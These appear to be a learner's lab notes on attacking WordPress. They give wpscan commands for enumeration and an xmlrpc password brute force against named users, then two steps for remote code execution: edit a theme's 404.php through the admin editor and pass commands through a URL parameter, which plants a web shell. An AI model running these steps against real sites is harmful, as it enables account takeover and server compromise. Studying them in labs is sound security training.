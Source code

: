 [[wordpress enumeration]]
https://github.com/wpscanteam/wpscan

https://wpscan.com/ - register to obtain API key. it is required to scan for vulnerabilities.
##### Enumerate ..
```bash
wpscan --url http://blog.inlanefreight.com --enumerate --api-token 
```

##### Password [[Brute Force]]
```bash
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

##### [[RCE]] using theme editor
1. Visit http://94.237.56.165:54912/wp-admin/theme-editor.php?file=404.php&theme=ben_theme
2. Run command http://94.237.56.165:54912/wp-content/themes/ben_theme/404.php?lol=id